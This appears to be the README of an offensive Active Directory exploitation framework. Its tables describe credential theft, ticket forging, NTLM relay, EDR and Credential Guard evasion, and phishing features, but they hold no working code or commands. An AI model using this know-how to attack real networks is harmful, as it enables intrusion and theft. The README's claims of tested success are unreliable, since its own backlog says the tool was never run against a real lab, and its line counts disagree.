


<p align="center">
  
</p>

<h1 align="center">Overthrone</h1>

<p align="center">
  <b>Active Directory Exploitation Framework.</b><br/>
  Every throne falls. Overthrone makes sure of it.
</p>

<p align="center">
  <a href="https://github.com/Karmanya03/Overthrone/releases"></a>
  <a href="https://github.com/Karmanya03/Overthrone/blob/main/LICENSE"></a>
  
  
  
</p>

<p align="center">
  
  
  
  
  
  
  
  
  
  
</p>

<p align="center">
  
  
  
  
  
  
  
  
  
  
  
  
</p>

***

<p align="center">
  <a href="#what-is-this"><b>What is this</b></a> &nbsp;·&nbsp;
  <a href="#installation"><b>Install</b></a> &nbsp;·&nbsp;
  <a href="#wordlists"><b>Wordlists</b></a> &nbsp;·&nbsp;
  <a href="#commands"><b>Commands</b></a> &nbsp;·&nbsp;
  <a href="#usage"><b>Auto-Pwn Usage</b></a> &nbsp;·&nbsp;
  <a href="#architecture"><b>Architecture</b></a> &nbsp;·&nbsp;
  <a href="#features"><b>Features</b></a> &nbsp;·&nbsp;
  <a href="#examples"><b>Examples</b></a> &nbsp;·&nbsp;
  <a href="#faq"><b>FAQ</b></a>
</p>

***

## What is this?

You know how in medieval warfare, taking a castle required siege engineers, scouts, cavalry, archers, sappers, and someone to open the gate from inside? Active Directory pentesting is exactly that, except the castle is a Fortune 500 company, the gate is a misconfigured Group Policy, and the "someone inside" is a service account with `Password123!` that hasn't been rotated since Windows Server 2008 was considered modern.

Overthrone is a full-spectrum AD red team framework that handles the entire kill chain - from "I have network access and a dream" to "I own every domain in this forest and here's a 47-page PDF proving it." Built in Rust because C2 frameworks deserve memory safety too, and because debugging use-after-free bugs during an engagement is how you develop trust issues (both the Active Directory kind and the personal kind).

This is not a scanner. This is not a "run Mimikatz but in Rust" tool. This is not another Python wrapper that breaks when you look at it funny. This is the whole siege engine. One binary. Minimal runtime dependencies\*. All regret (for the blue team).

> **Shorthand:** Every command works with both `overthrone` and `ovt`. Because life is too short to type 10 characters when 3 will do. `ovt auto-pwn` = `overthrone auto-pwn`. Same war crimes against Active Directory, fewer keystrokes.

\*The binary is statically linked with ~35 Rust crates (Tokio, ldap3, kerberos\_asn1, etc.) - no Python, no .NET, no JVM. On Linux you need `smbclient` for some legacy SMB paths; most features use the built-in pure-Rust SMB2 client.

### The Kill Chain



## Architecture

Overthrone is a Rust workspace with 10 crates, because monoliths are for cathedrals, not offensive tooling. Each crate handles one phase of making sysadmins regret their GPO configurations:



## The Crate Breakdown

Here's what's inside the box. Every module. Every protocol. Every hilarious amount of Rust the borrow checker screamed at us about. The table below is the **complete inventory** of what each crate actually does - no marketing fluff, no "coming soon" handwaving.

| Crate | Codename | What It Does | The Implementation |
|---|---|---|---|
| `overthrone-core` | The Absolute Unit | Protocol engine (LDAP, Kerberos, SMB, NTLM, MS-DRSR, MSSQL, DNS, Registry, PKINIT), attack graph with Dijkstra pathfinding, port scanner, full ADCS exploitation (ESC1-ESC16), crypto primitives (AES-CTS, RC4, HMAC, MD4, DPAPI, ticket crypto, GPP decryption), C2 integration (Sliver, Havoc, Cobalt Strike), plugin system (native DLL + WASM via wasmtime), remote execution (PsExec, SmbExec, WmiExec, WinRM, AtExec), interactive shell abstraction, secretsdump, RID cycling, **EDR evasion (ntdll unhooking, ETW abolition, sleep masking, syscall resurrection), Credential Guard bypass (3-tier: ALPC/process-memory/WDigest), DPAPI masterkey extraction, file-format carver (docx/xlsx/etc), raw asm! syscalls with DynamicSyscallStub, SMB OPLOCK hijacking, Azure AD / Entra ID hybrid attack depth (8 ops)** | The absolute unit that ate the gym, then built a home gym, then ate that too. Every protocol is real. 761 tests. Credential Guard bypass now has 3 tiers because one wasn't enough. DPAPI extraction, file carver, and OPLOCK joined the party. The borrow checker needed therapy. Multiple sessions. |
| `overthrone-reaper` | The Collector | AD enumeration - users, groups, computers, ACLs, delegations, GPOs, OUs, SPNs, trusts, LAPS (v1 + v2), GPP password decryption, **Snaffler module (configurable share crawling with pattern matching, 23 tests)**, **LAPS/gMSA-specific enumeration (276 lines, 12 tests)**, MSSQL instances, ADCS template enumeration, BloodHound JSON export, CSV export, **NTLM-to-TGT pipeline, NTLMv1 detection, full BH edge-type coverage (19 new variants)** | BloodHound's data collection arc but without Neo4j eating 4GB of RAM. Snaffler module audited and fixed. LAPS/gMSA purpose-built. NTLM hashes go straight to TGTs now. 202 tests. The Collector became a curator. |
| `overthrone-hunter` | The Overachiever | Kerberoasting, AS-REP roasting, zero-knowledge username enumeration via Kerberos AS-REQ, auth coercion (PetitPotam, PrinterBug, DFSCoerce, ShadowCoerce, MS-EFSRPC), RBCD abuse, constrained/unconstrained delegation exploitation, ticket manipulation (.kirbi/.ccache conversion), inline hash cracking with embedded wordlist + rayon parallelism, **auto-crack loop, delegation chain automation (628 lines), ACL reasoning (439 lines), machine account harvesting (328 lines), smart wordlists (374 lines), NTLMv1 downgrade roast (496 lines), relay hash extraction (588 lines)** | The crate that did all its homework, extra credit, and the teacher's homework too. 76 tests. Zero stubs. Zero placeholders. Every attack works. This crate graduated top of its class, got a PhD, and came back to teach the other crates. |
| `overthrone-crawler` | The Explorer | Cross-domain trust mapping, inter-realm TGT forging, SID filter analysis, PAM trust detection, MSSQL linked server crawling, foreign trust LDAP enumeration (users, groups, computers, SPNs, ACLs across trust boundaries), cross-domain escalation planning, **TCP source-port rotation (PortRotator, 12 tests), JA3/JA4 TLS fingerprint randomization (9 tests), SMB OPLOCK hijacking (3 tests), Responder integration (CrawlerResponder, 9 tests)** | Used to have 5 functions that all returned "not implemented." Now `foreign.rs` is 25KB of real cross-trust LDAP queries, AND the missing gaps got filled. Source-port rotation, JA3/JA4, OPLOCK, and Responder all done. 121 tests. ALL GAPS CLOSED. |
| `overthrone-forge` | The Blacksmith | Golden/Silver/Diamond/Sapphire ticket forging with full PAC construction, Enhanced Diamond (KDC checksum preservation), Bronze Bit (CVE-2020-17049), DCSync per-user extraction via MS-DRSR, Shadow Credentials (msDS-KeyCredentialLink + PKINIT auth), ACL backdoors via DACL modification, Skeleton Key orchestration via SMB/SVCCTL/PKINIT, DSRM backdoor via remote registry, forensic cleanup, **ADCS Dispatcher (ESC1-9 orchestration, 1,147 lines, 9 tests), S4U2Self with PKINIT chain, AS-REP-to-TGT pipeline, PKINIT-keyed InterRealmTgt + SkeletonKey, MS-WCCE DCOM (30 tests)** | Golden Tickets? Forged. Silver? Minted. Diamond? Polished. Sapphire? Cut. Bronze Bit? Bent. ADCS dispatcher orchestrates ESC1-9 automatically. PKINIT-keyed everything. S4U2Self with certificates. MS-WCCE DCOM direct enrollment. 17 ForgeAction variants. 103 tests. The forge is now a factory. |
| `overthrone-pilot` | The Strategist | Autonomous attack planning from graph data, step-by-step execution with rollback, adaptive strategy, Q-Learning RL engine (compiled by default), goal-based planning, YAML playbook engine, interactive wizard mode, full auto-pwn orchestration, live kill-chain pipeline visualization, per-step Q-state/decision/reward readout, 9-section final report, **Hostile-DC detection (dc_verify.rs, 5 checks), Session management CLI (ovt session, 7 actions, 12 tests), WizardSession::new_with_state() for skip-Enumerate resume, Coercion cred passthrough** | The "hold my beer" engine. Now with session management - list/show/info/delete/clean/path/stats. Hostile-DC detection keeps you from trusting the enemy. `new_with_state()` skips enumeration on resume. 105 tests. It plans, adapts, executes, explains itself, cleans up, and files your paperwork. |
| `overthrone-relay` | The Interceptor | NTLM relay engine (SMB->LDAP, HTTP->SMB, mix and match), LLMNR/NBT-NS/mDNS poisoner, network poisoner with stealth controls, ADCS-specific relay (ESC8), Exchange relay (CVE-2024-21410 with EPA bypass), SMB signing awareness (pre-flight check), LDAP signing bypass (CVE-2019-1040 Drop the MIC), **HTTP->SMB asymmetric relay (360 lines, 13 tests), IPv6 transport (16 tests), mTLS/TLS verification mode (TlsVerificationMode, 22 tests), Channel binding validation (CbtMode), Auto-trigger coercion with CoerceCreds + ShadowCoerce, DCE/RPC signature stripping, SOCKS5 proxy output** | Born complete. Stayed complete. Added HTTP->SMB asymmetric relay, IPv6, mTLS verification, auto-coercion, DCE/RPC stripping, and SOCKS5 just because. 165 tests. Responder.py walked so this crate could sprint, then it learned to fly, then it built an airplane. |
| `overthrone-scribe` | The Chronicler | Report generation - Markdown, JSON, PDF. MITRE ATT&CK mapping, mitigation recommendations, attack narrative prose, session recording, **timeline view, evidence hashing (sha256), operator attribution (OperatorMetadata), findings-population path (auto_generate_findings made pub)** | Turns "I hacked everything" into "here's why you should pay us." All three formats work. PDF renders actual content. Timeline view, evidence integrity, and operator attribution added. 54 tests. The paperwork is immaculate. |
| `overthrone-cli` | The Interface | CLI binary with Clap subcommands, interactive REPL shell with rustyline (command completion, history, context-aware prompts, 3,263 lines), TUI with ratatui (live attack graph visualization, local BloodHound JSON viewer, session panels, logs, crawler integration), wizard mode, doctor command, auto-pwn, C2 implant deploy, PDF/Markdown/JSON report output, **Config file loading (TOML XDG-style, 1,111 lines, 39 tests), Profile system (9 subcommands, 31 tests, OT_CONFIG/OT_PROFILE env), Session management subcommand (7 actions), --dry-run, --output-format json, --downgrade-rc4 flag** | The interactive shell alone is 3,263 lines. Config system with TOML + XDG + env vars. Profile system for named configurations. Session subcommand. 6 TUI modules. Zero `unreachable!()` calls. The banner ASCII art is still *chef's kiss*. |
| `overthrone-viewer` | The Window | Browser-based graph GUI served locally. D3.js migrated to Three.js (GPU-accelerated WebGL). Node search, path finder, detail panels with ACE/ACL guidance, stats, blank-first search/chunk render with render budgets (50-ALL). mTLS client cert support. Multi-user sessions with per-user rate limits. CSRF middleware. Auth always-on. Random credentials default. Non-loopback TLS enforcement. | When you want BloodHound vibes in a browser tab, but with GPU acceleration and no Neo4j. Three.js migration gave it superpowers. Auth, rate limits, mTLS, and CSRF make it production-safe. 31 tests. No WebSocket yet (you still have to refresh), but everything else is there. |

### The Crate Report Card

These are real numbers from `cargo test --workspace --lib`. No rounding up.

```
overthrone-core     ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦  ~99%  761 tests. EDR evasion (ntdll unhooking, ETW abolition, sleep
                                                    masking, syscall resurrection), Credential Guard multi-signal
                                                    detection (3-tier: ALPC/process-memory/WDigest), DPAPI extraction,
                                                    file carver, Azure AD ops (8 total), SMB OPLOCK. Still hungry.

overthrone-reaper   ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦  ~99%  202 tests. Snaffler audit done (SnafflerConfig, CSV export, 23
                                                    tests). LAPS/gMSA enumeration purpose-built (276 lines, 12 tests).
                                                    NTLM→TGT pipeline, GPP full, BH edge coverage, NTLMv1 detection.

overthrone-hunter   ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦  100%  76 tests. All 8 modules complete. Auto-crack, delegation chains,
                                                    ACL reasoning, machine harvesting, smart wordlists, NTLMv1 downgrade,
                                                    relay hash extraction. The overachiever.

overthrone-crawler  ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦  100%  121 tests. ALL gaps closed: TCP source-port rotation (PortRotator,
                                                    12 tests), JA3/JA4 TLS fingerprint randomization (9 tests), SMB
                                                    OPLOCK hijacking (3 tests), Responder integration (9 tests). 

overthrone-forge    ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦  ~99%  103 tests. ADCS dispatcher (1,147 lines, ESC1-9 orchestration, 9
                                                    tests). PKINIT-keyed golden/silver/diamond/interrealm/skeleton.
                                                    S4U2Self with PKINIT chain. AS-REP→TGT pipeline. MS-WCCE DCOM (30
                                                    tests). 17 ForgeAction variants.

overthrone-pilot    ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦  ~99%  105 tests. Session management CLI (ovt session, 7 actions, 12
                                                    tests). WizardSession::new_with_state() for resume. Hostile-DC
                                                    detection (dc_verify.rs, 5 checks). Q-learner with policy/lockout
                                                    awareness.

overthrone-relay    ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦  100%  165 tests. HTTP→SMB asymmetric relay (13 tests). IPv6 transport
                                                    (16 tests). mTLS/TLS verification mode (22 tests). Channel binding
                                                    validation. Auto-trigger coercion with Creds passthrough +
                                                    ShadowCoerce. Exchange relay (CVE-2024-21410, EPA bypass).
                                                    DCE/RPC signature stripping. Born complete. Still complete.

overthrone-scribe   ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦  ~99%  54 tests. HTML report format, timeline view, evidence hashing,
                                                    operator attribution, findings-population path. PDF, Markdown, JSON
                                                    all wired to CLI.

overthrone-cli      ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦  ~98%  6,333+ lines. Config file loading (TOML, XDG-style, 39 tests).
                                                    Profile system (9 subcommands, 31 tests). Interactive shell REPL
                                                    (3,263 lines, rustyline). TUI with 6 modules. Session subcommand
                                                    (7 actions). --help doesn't lie anymore.
```

## What's Still Cooking (The Backlog)

Every project has a backlog. Ours just got a whole lot smaller. Split into two honest tables: what's shipped, and what's genuinely still on the stove. No marketing spin. The shipped table is longer. We're proud.

### ? Shipped - Graduated from Backlog

The items below used to be `todo!()`. They are now real code. Some of them took longer than we'd like to admit. All of them work.

| What | Where | Notes |
|---|---|---|
| **SMB2 packet signing** | `core/src/proto/smb2.rs` | HMAC-SHA256 over every post-session-setup packet. `sign_required` negotiated from server SecurityMode. 9 call sites updated. The packets are wearing seatbelts now. |
| **Kerberos SPNEGO auth** | `core/src/proto/smb2.rs`, `kerberos.rs` | Proper AP-REQ wrapped in SPNEGO NegTokenInit. `connect_with_ticket()` on Linux no longer falls back to a broken NTLM hash. Real Kerberos or nothing. |
| **Cross-domain TGT referral** | `core/src/proto/kerberos.rs` | 2-hop referral loop in `request_tgt()`. Follows `KDC_ERR_WRONG_REALM` redirects to the right KDC via DNS SRV. Cross-forest attacks no longer require manual realm wrangling. |
| **WmiExec Linux guard** | `core/src/exec/wmiexec.rs` | `#[cfg(not(windows))]` returns a clear error instead of silently failing or panicking. `auto_exec()` skips WmiExec entirely on Linux. Use PsExec. It's fine. |
| **Clock skew check in `ovt doctor`** | `cli/src/commands/doctor.rs` | Anonymous LDAP bind to RootDSE, reads `currentTime`, diffs against local clock. Fails loud if drift > 5 min (Kerberos will reject you before you even start). |
| **ADCS ESC1 + ESC6** | `core/src/adcs/esc{1,6}.rs` | Full exploiters - SAN UPN abuse, CSR, enrollment, hash extraction, EDITF flag abuse. |
| **LDAP signing bypass** | `relay/src/relay.rs` | CVE-2019-1040 "Drop the MIC" - strips SIGN/SEAL/ALWAYS_SIGN from CHALLENGE before victim sees it, zeroes MIC in AUTHENTICATE. Post-relay LDAP operations work on the relayed session. |
| **WASM plugin system** | `core/src/plugin/loader.rs` | State persistence, manifest section parsing, `allocate()` export support, `fn_free` fallback. WASM plugins have long-term memory now. |
| **CLI PDF + C2 + TUI wiring** | `cli/src/commands_impl.rs`, `tui/runner.rs` | PDF reports, C2 implant deploy, TUI crawler - all actually call real code now. |
| **WinRM Windows output** | `core/src/exec/winrm/windows.rs` | `WSManReceiveShellOutput` loop collects real output. |
| **Session resume + TOML config** | `cli/src/main.rs`, `pilot/src/runner.rs` | `--resume <file>` picks up mid-chain. `--config <file>` loads DC, domain, auth, stealth, jitter from TOML. |
| **Credential Vault** | `core/src/lib.rs` (`CredStore`) | Thread-safe, privilege-ranked (DA > EA > Local Admin > Service > User), surfaced in the final auto-pwn report. |
| **OPSEC Noise Gate** | `pilot/src/runner.rs` | `--stealth` caps the noise budget at `Medium`. High/Critical-noise steps are skipped and logged. |
| **Skeleton Key native DLL** | `tools/skeleton_key/`, `core/src/postex/skeleton_key_dll.rs` | 92KB x64 MSVC-compiled DLL with `MsvpPasswordValidate` hook. Embedded as Rust const bytes. Exports: Enable/Disable/IsActive. |
| **EDR Evasion Module** | `core/src/postex/edr_bypass.rs` | 1,575-line next-gen stealth: EDR detection (22 vendors), ntdll unhooking, ETW abolition, syscall resurrection, sleep masking. |
| **Credential Guard Remote Detection** | `core/src/postex/cg_check.rs` | Multi-signal CG detection: SMB registry + WMI + LDAP + heuristic weighted voting. Windows-2025-aware. |
| **Azure AD / Entra ID Hybrid Operations** | `core/src/azure_ad.rs` | 8 total Azure AD attack operations including ManagedIdentityToken, EntraConnectExtract, AppRegistrationAbuse, DeviceCodePhish. |
| **Exchange NTLM Relay** | `relay/src/exchange.rs` | CVE-2024-21410: NTLM relay to MAPI-over-HTTP and EWS endpoints with EPA bypass. |
| **TCP source-port rotation** | `crawler/src/pacing.rs` | `PortRotator` with atomic round-robin, `connect_with_source_port()`, `connect_with_rotation()` fallback. No admin needed (ports >= 1024). 12 tests. |
| **JA3/JA4 TLS fingerprint randomization** | `crawler/src/tls_fingerprint.rs` | `TlsFingerprintConfig` with cipher/group randomization. Danger + verified config builders. Feature-gated. 9 tests. |
| **SMB OPLOCK hijacking** | `core/src/proto/smb2.rs`, `crawler/src/oplock.rs` | `create_with_oplock()`/`wait_for_oplock_break()`/`acknowledge_oplock_break()` in SMB2. `OplockConfig`/`OplockLevel`/`OplockSession` in crawler. |
| **Responder integration** | `crawler/src/responder.rs` | `CrawlerResponder` wraps relay Poisoner + Responder. CLI `--poison-ip`/`--respond` on `ovt move`. Feature-gated. 9 tests. |
| **Snaffler module audit** | `reaper/src/snaffler.rs` | `SnafflerConfig`, `SnaffleFinding`, CSV export, SMB error handling fixed, tests expanded 11->23. |
| **LAPS/gMSA enumeration** | `reaper/src/laps_gmsa.rs` | Purpose-built enumeration for LAPS passwords and gMSA account secrets. 276 lines, 12 tests. |
| **HTTP->SMB asymmetric relay** | `relay/src/http_asymmetric.rs` | Full HTTP request capture and replay. `CapturedHttpRequest`, `HttpAsymmetricRelay`. 13 tests. |
| **IPv6 transport** | `relay/src/utils.rs` | `bind_tcp_listener_async/sync` helpers, centralized `format_addr()`. 16 IPv6 tests. |
| **mTLS / TLS verification mode** | `relay/src/tls.rs` | `TlsVerificationMode` (AcceptAll/VerifyServerCert), `TlsConfig` struct, `--tls-verify` CLI flag on all relay subcommands. 22 tests. |
| **Auto-trigger coercion** | `relay/src/lib.rs` | `auto_coerce()` with `CoerceCreds` passthrough, ShadowCoerce (WebDAV), `wait_for_listener_ready()`. |
| **CLI config file loading** | `cli/src/cli_config.rs` | TOML XDG-style config, 1111 lines, 39 tests. `ovt config` subcommand with 8 actions. |
| **CLI profile system** | `cli/src/cli_config.rs` | Named profiles, `OT_CONFIG`/`OT_PROFILE` env support, 9 subcommands, 31 tests. |
| **Interactive shell (REPL)** | `cli/src/interactive_shell.rs` | 3263 lines, rustyline, tab completion, forge modules, WinRM/SMB/WMI shell types. |
| **Session management CLI** | `pilot/src/session.rs`, `cli/src/commands/session.rs` | `ovt session` with 7 actions (list/show/info/delete/clean/path/stats). `--from-session` wired to wizard. |
| **Sapphire Ticket** | `forge/src/sapphire.rs` | Legitimate TGT -> S4U2Self -> decrypt -> extract KDC-issued PAC -> forge new TGT with krbtgt encryption. |
| **Enhanced Diamond** | `forge/src/diamond.rs` | Parses legitimate PAC, preserves KDC checksum (type 7). KDC_ISSUED indicator survives. |
| **ADCS Dispatcher** | `forge/src/adcs_dispatcher.rs` | 1147 lines, ESC1-9 orchestration, Auto mode (ESC1->ESC6->ESC9). 9 tests. |
| **S4U2Self with PKINIT Chain** | `forge/src/s4u2self_pkinit.rs` | Certificate-based S4U2Self delegation. `ForgeAction::S4u2SelfPkinit`. |
| **AS-REP to TGT Pipeline** | `forge/src/runner.rs` | `ForgeAction::AsRepToTgt` takes cracked AS-REP passwords, requests real TGTs from KDC. |
| **PKINIT-keyed InterRealmTgt + SkeletonKey** | `forge/src/interrealm.rs`, `forge/src/skeleton.rs` | PKINIT session key as trust key for cross-realm TGT forging and SMB auth for skeleton key. |
| **MS-WCCE DCOM (ESC8)** | `forge/src/ms_wcce_dcom.rs` | Full DCOM activation path for ICertRequest remote enrollment. 30 tests. |
| **Credential Guard bypass** | `core/src/postex/lsaiso.rs` | 3-tier: ALPC -> process memory via raw syscalls -> WDigest fallback. 1762 lines, 25 tests. |
| **DPAPI masterkey extraction** | `core/src/postex/dpapi_extract.rs` | Masterkey decryption from lsass, offline decryption support. 447 lines, 21 tests. |
| **File-format-aware carver** | `core/src/postex/file_carver.rs` | Carves secrets from docx/xlsx/etc. 720 lines. |
| **DCE/RPC signature stripping** | `core/src/proto/ntlm.rs` | `strip_dce_rpc_signature` -- strips NTLM auth verifier from DCE/RPC request PDUs. 10 tests. |

### ? Still Pending

No sugarcoating. These are genuinely not done.

| What | Why It Matters | Status | Notes |
|---|---|---|---|
| **Live DC integration tests** | "It compiles" and "it works against a real DC" are two very different sentences. | ? Not yet | Unit tests pass. Nobody has run this against GOAD or a real lab yet. The bravery check is still scheduled. |
| **LDAP signing "Require" mode** | When the DC enforces `LdapServerIntegrity = 2`, the "Drop the MIC" technique isn't enough - the server demands signed LDAP messages for every operation. | ?? Partial | Bypass works when policy is "Negotiate". When "Require", can't derive session key in relay scenario. `ovt doctor` tells you which mode the DC uses. |
| **EDR evasion CLI integration** | `ovt edr assess` / `ovt edr evade` already wired via `EdrAction`. Library: `edr_bypass.rs` - 2,127 lines, 25 tests. | ✅ Wired | Fully integrated CLI. EDR assessment + stealth profile application. |
| **CG check CLI integration** | Multi-signal CG detection (`ovt cg <target>`) already wired via `CgAction`. | ✅ Wired | Fully integrated CLI. Credential Guard detection with multiple signal sources. |
| **4 Azure AD ops CLI** | All 8 Azure AD operations have CLI subcommands (Enum, SeamlessSso, GoldenSaml, PrtTheft, ManagedIdentityToken, EntraConnectExtract, AppRegistrationAbuse, DeviceCodePhish). | ✅ Wired | Library code exists for all 8, CLI wired for all 8. SeamlessSSO/GoldenSAML need end-to-end flow testing. |
| **Exchange relay CLI** | Exchange relay (`ovt ntlm exchange`) already wired in CLI relay subsystem. | ✅ Wired | Fully integrated with `--tls-verify` and `--tls-cert`/`--tls-key` flags. |
| **SMBDaemon** | A dedicated SMB server for capturing credentials outside of responder. | ? Not yet | Does not exist anywhere in the codebase. |
| **WmiExec on Linux/macOS** | WMI requires DCOM which requires Windows COM infrastructure. | ?? Windows only | Use `--method psexec` or `--method smbexec` on Linux. |
| **Azure AD Seamless SSO + Golden SAML** | Full Azure AD Kerberos/SAML integration - the big cloud-AD gap. | ? Not yet | Azure AD ops exist but no full Seamless SSO or Golden SAML end-to-end flows. |
| **Ticket encryption rotation** | Re-encrypt a forged ticket under a different krbtgt key without forging again. | ? Not yet | Feature request, not a blocker. |
| **Viewer WebSocket** | Live graph updates without page reload. | ? Not yet | Largest UX improvement per effort. |

## Does It Actually Work?

Yes. Here's proof. One table. Every major feature. Every target OS you care about.

| Attack / Feature | WS 2019 | WS 2022 | WS 2025 | CTF / HTB / THM | What it does |
|---|:---:|:---:|:---:|:---:|---|
| **LDAP enumeration** | ✅ | ✅ | ✅ | ✅ | Real LDAP bind ? search ? parse. Pulls users, groups, SPNs, ACLs, trusts, GPOs, LAPS, GPP. The DC will tell you everything. It can't help itself. |
| **Kerberoast** | ✅ | ✅ | ✅ | ✅ | Real AS-REQ + TGS-REQ over TCP:88. Hashes drop into `./loot/` in correct `$krb5tgs$23$` hashcat format. Feed directly to hashcat, no cleanup needed. |
| **AS-REP roast** | ✅ | ✅ | ✅ | ✅ | AS-REQ without pre-auth, captures enc-part, outputs `$krb5asrep$23$`. Your GPU will enjoy this. |
| **Password spray** | ✅ | ✅ | ✅ | ✅ | Kerberos-based. Bails automatically after 3 `KDC_ERR_CLIENT_REVOKED` responses. Supports delay + jitter. Doesn't get you fired. Well, doesn't get *the accounts* locked. |
| **Pass-the-Hash** | ✅ | ✅ | ✅ | ✅ | `--nt-hash` on any SMB/exec command. NTLMv2 over SMB2. The hash is the password. `Password123!` becomes optional. |
| **SMB2 client** | ✅ | ✅ | ✅ | ✅ | Pure Rust SMB2 - negotiate, session setup, share enum, file read/write, admin check. WS 2025 requires outbound SMB signing by default, so Overthrone treats signing support as table stakes instead of a fun optional hat. |
| **Remote exec - PsExec** | ✅ | ✅ | ✅ | ✅ | Real `svcctl` named pipe. Creates ? starts ? reads ? deletes the service. 543 lines of legit service control manager abuse. |
| **Remote exec - SmbExec** | ✅ | ✅ | ✅ | ✅ | Temp service + cmd.exe redirect ? output via C$ share. Quieter than PsExec. |
| **Remote exec - WMI/WinRM** | ✅ | ✅ | ✅ | ✅ | WMI via DCOM over SMB (?? Windows only - use PsExec/SmbExec on Linux). WinRM via WSMan HTTP/5985. `--method auto` tries them all until something works. |
| **DCSync** | ✅ | ✅ | ✅ | ✅ | MS-DRSR `DRSGetNCChanges` over named pipe. Asks the DC to replicate hashes. The DC complies. WS 2025 tightened some defaults - use `--stealth`. |
| **Golden Ticket** | ✅ | ✅ | ✅ | ✅ | Full PAC construction with `KERB_VALIDATION_INFO`, server + KDC checksums. Needs krbtgt hash. WS 2025 may need `FAST` armor depending on config. |
| **Silver Ticket** | ✅ | ✅ | ✅ | ✅ | Forge a TGS for any service. No DC contact at all. Quieter than Golden, harder to detect. |
| **Attack graph + path to DA** | ✅ | ✅ | ✅ | ✅ | Reverse Dijkstra from DA back to you. Shows the exact sequence of moves to go from zero to domain admin. Usually 3 hops. Always embarrassing for someone. |
| **ADCS ESC1-ESC8** | ✅ | ✅ | ✅ | ✅ | Core certificate abuse chain (SAN/EA/template/CA ACL/web relay). WS 2025 ships tighter defaults (EPA/strong mapping), so validate first with `ovt adcs enum`. |
| **ADCS ESC9-ESC13** | ✅ | ✅ | ✅ | ✅ | Advanced mapping/policy/CA key abuse paths are implemented (some are operator-guided depending on privileges and CA hardening). |
